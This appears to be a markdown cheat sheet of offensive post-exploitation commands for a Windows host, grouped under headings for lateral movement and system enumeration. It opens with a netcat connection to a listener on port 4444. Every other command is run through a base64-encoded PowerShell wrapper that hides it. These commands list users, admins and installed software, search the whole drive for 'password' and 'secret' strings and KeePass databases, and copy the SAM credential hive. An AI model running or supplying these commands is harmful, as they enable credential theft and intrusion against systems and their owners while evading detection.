 ## Lateral Movement:

- `nc 192.168.50.220 4444`

## Local Account Enumeration:

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'whoami'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\Current-User.txt"`

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'whoami /groups'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\Local-User-Groups.txt"`

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-LocalUser'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\Local-Users.txt"`

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-LocalGroupMember Administrators | Where-Object { $_.PrincipalSource -eq "Local" } | Select-Object Name'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\Local-Admins.txt"`

## Get Installed Applications:

### 32 Bit:

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname,DisplayVersion'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\32BitPrograms.txt"`

### 64 Bit:

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname,DisplayVersion'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\64BitPrograms.txt"`

## Local System Enumeration

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-ChildItem -Path C:\ -Recurse -File -ErrorAction SilentlyContinue | Select-String -Pattern "password|secret" -SimpleMatch'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\Find-Secrets.txt"`

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-Process'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\Get-Process.txt"`

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-ChildItem -Path C:\ -Include \*.kdbx -File -Recurse -ErrorAction SilentlyContinue'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\Get-KeyPass-DBs.txt"`

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-ChildItem -Path C:\ -Include SAM -File -Recurse -ErrorAction SilentlyContinue'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\Find-SAM-DB.txt"`

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Copy-Item -Path "$env:SystemRoot\System32\Config\RegBack\SAM" -Destination '.\Q4-Campaign\SAM-Copy'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'systeminfo'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\SystemInfo.txt"`

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'ipconfig /all'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\IpConfig.txt"`

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'route print'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\RoutePrint.txt"`

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'netstat -ano'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\NetStat.txt"`
